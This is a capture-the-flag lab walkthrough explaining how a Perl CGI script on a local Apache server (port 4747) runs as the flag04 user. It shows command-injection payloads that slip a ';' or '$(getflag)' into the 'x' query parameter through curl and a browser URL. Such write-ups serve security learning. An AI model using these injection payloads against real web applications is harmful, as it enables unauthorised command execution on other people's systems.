 # Level04 : find flag04

## Tutorial

1. Checking `$HOME`, `ls -l ~/level04.pl` :
   - result : `-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 /home/user/level04/level04.pl`
   - `.pl` is a perl file
   - `cat ~/level04.pl`, see file in folder :
     - shebang : `#!/usr/bin/perl`
     - hint : `# localhost:4747` 
     - CGI + `sub x` function + `x(param("x"))`
2. Connect to `curl http://<IP>:4747/level04.pl\?x\=toto` :
   - result : `toto`
   - Conclusion : there is a server running on port `4747` and the file `~/level04.pl` is a hint
3. Solution :
   - with curl : `curl http://192.168.56.3:4747/level04.pl\?x\=toto+%3B+"getflag"`, toto is not necessary, 3B=";" on ascii
   - in browser : `http://192.168.56.3:4747/level04.pl?x="toto+%3B+$(getflag)"`, toto is not necesary
   - result : `toto ; Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap`
   - DONE !

## Additionnal explanations

1. Check server file and configuration
   - launch `netstat -pnltu | grep 4747` => `tcp6    0    0    :::4747    :::*    LISTEN    -`
   - launch `ps -aux | grep apache2` => multiple lines user `root` and `www-data`
```
root      1409  0.0  0.6  21340  6264 ?        Ss   Apr09   0:04 /usr/sbin/apache2 -k start
www-data  1452  0.0  0.4  21420  4420 ?        S    Apr09   0:00 /usr/sbin/apache2 -k start
...
```
2. server files : `cd /var/www/level04`, `ls -l /var/www/level04`
   - result : `-r-xr-x---+ 1 flag04 level04 152 Apr  9 15:59 level04.pl`
   - note : the `+` is for the acl, use `getfacl /var/www/level04` for more information
3. server configuration files : `cd /etc/apache2/`
   - result : `ls -l /etc/apache2/sites-enabled/` => `lrwxrwxrwx 1 root root 31 Aug 30  2015 level05.conf -> ../sites-available/level05.conf`
   - see what is in conf file : `cat /etc/apache2/sites-enabled/level05.conf` => see below
```
<VirtualHost *:4747>
	DocumentRoot	/var/www/level04/
	SuexecUserGroup flag04 level04
	<Directory /var/www/level04>
		Options +ExecCGI
		DirectoryIndex level04.pl
		AllowOverride None
		Order allow,deny
		Allow from all
		AddHandler cgi-script .pl
	</Directory>
</VirtualHost>
```
4. Conclusion : 
   - `SuexecUserGroup` is used to define the `user` and `group` launching the program
   - we can see that the `DocumentRoot` is in `/var/www/level04/` with file name `level04.pl`
   - We can see that the `user` is `flag04` which allows us to use `getflag` command
   - getflag !
5. Notes : 
   - the previous method which consist of creating `/tmp/echo` with correct permissions can't work here
   - reason : `cat /etc/environment` set the `$PATH` variable for all users
   - more explanation in `/level03/Resources/README.md`

## Additional resources

- apache server :
  - url : https://www.digitalocean.com/community/tutorials/how-to-configure-the-apache-web-server-on-an-ubuntu-or-debian-vps
- Module Apache mod_suexec : permet l'exécution des scripts CGI sous l'utilisateur et le groupe spécifiés
  - url : https://httpd.apache.org/docs/2.4/fr/mod/mod_suexec.html
  - Syntaxe : `SuexecUserGroup Utilisateur Groupe`
- Perl, setting locale :
  - url : https://www.thomas-krenn.com/en/wiki/Perl_warning_Setting_locale_failed_in_Debian
- Perl and CGI :
  - https://www.cs.ait.ac.th/~on/O/oreilly/perl/learn32/ch18_04.htm
  - http://devernay.free.fr/cours/internet/cgi/perlex.html
- Check services running on ports :
 - url : https://linoxide.com/linux-how-to/check-service-running-linux-port/
 - usage : `netstat -pnltu`
- ACL : Access Control List
  - url : https://lea-linux.org/documentations/ACL
- Find live hosts on my network :
  - url : https://security.stackexchange.com/questions/36198/how-to-find-live-hosts-on-my-network
